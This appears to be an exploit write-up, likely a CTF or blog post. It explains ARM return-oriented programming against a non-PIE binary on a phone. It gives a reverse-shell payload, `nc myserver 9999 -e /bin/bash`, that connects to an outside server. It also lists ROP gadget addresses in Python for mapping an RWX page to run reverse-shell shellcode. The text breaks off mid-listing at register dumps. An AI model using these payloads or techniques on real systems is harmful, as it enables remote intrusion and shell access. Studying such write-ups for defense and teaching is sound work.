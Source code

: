 When I usually exploit a no PIE binary with ASLR and NX bit, I write a
ropchain that leak something from the `.got` and then read again on top of the
stack for a second stage rop that uses `libc`. But this time I did not have a
connection to the binary. So was very hard to implement a second stage sent
later.

The phone had Internet access and also `nc` installed. So the plan was to
execute:

```c  
system("nc myserver 9999 -e /bin/bash");  
```

`system` was not in the .got so I need to do some computation from a value in
the got to get the address for `system`.  
This stuff is hard while ropping, so the exploitation plan was slightly
different: Let's map some executable address and write a shellcode that does a
reverse connection.

So, I collected a few gadgets and built the ropachain that execute a `mmap` on
an address the I can choose. Permissions for this new page are of course
`RWX`.

```python  
# 0x0001275e : ldr r3, [r5, #0x20] ; cmp r3, r4 ; bne #0x12760 ; ldrd r4, r5,
[sp] ; add sp, #8 ; pop {r6, pc}  
r3load = 0x0001275e  
#0x000128fe : pop {r5, pc}  
r5pop = 0x000128fe  
#0x000118c6 : pop {r4, pc}  
r4pop = 0x000118c6  
#0x000172a6 : pop {r2, r3, r4, pc}  
r234pop = 0x000172a6  
#0x00016c12 : pop {r1, r4, pc}  
r14pop = 0x00016c12  
#0x00015c24 : pop {r0, r3, pc}  
r03pop = 0x00015c24  
#0x00012b4e : pop {r2, pc}  
r2pop = 0x00012b4e  
#0x000111c4 : pop {r3, pc} not thumb  
r3popnothumb = 0x000111c4  
#0x00011f52 : blx r4  
blxr4 = 0x00011f52  
#       void *mmap(void *addr, size_t len, int prot, int flags, int fildes,
off_t off);  
mmap = 0x00011240  
mmap = 0x00013E0C +1  
memcpy = 0x00011410  
memcpy_got = 0x000320C0  
#0x0001fe36 : add r3, sp, #0x2b8  
addr3sp = 0x0001fe36

#0x000176c0 : add r0, sp, #0x1a0 ; movs r1, r0 ; bx lr  
#0x000122c0 : ldm.w ip, {r5, sb, sl, lr} ; add sp, #0x10 ; pop {r4, pc}  
ctrlr = 0x000122c0  
#0x00014b5a : ldr lr, [sp], #4 ; b.w #0x1263e  
setlrjmpr3 = 0x00014b5a  
"""  
Register state when we take control of PC  
r0             0x0                 0  
r1             0x38024             229412  
r2             0x35a70             219760  
r3             0x35a70             219760  
r4             0x61716161          1634820449  
r5             0x61726161          1634885985  
r6             0x61736161          1634951521  
```